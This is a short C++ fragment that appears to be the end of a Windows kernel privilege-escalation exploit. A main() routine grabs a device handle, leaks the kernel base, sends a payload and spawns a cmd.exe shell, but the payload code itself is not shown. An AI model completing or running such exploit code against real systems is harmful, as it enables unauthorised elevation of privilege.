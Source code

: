 ```cpp

    STARTUPINFOA si;
    ZeroMemory(&si, sizeof(si));

    CreateProcessA("C:\\Windows\\System32\\cmd.exe",
        NULL,
        NULL,
        NULL,
        0,
        CREATE_NEW_CONSOLE,
        NULL,
        NULL,
        &si,
        &pi);
}

int main() {

    HANDLE hFile = grab_handle();

    INT64 kernel_base = get_kernel_base();
    send_payload(hFile, kernel_base);
    spawn_shell();
}
```
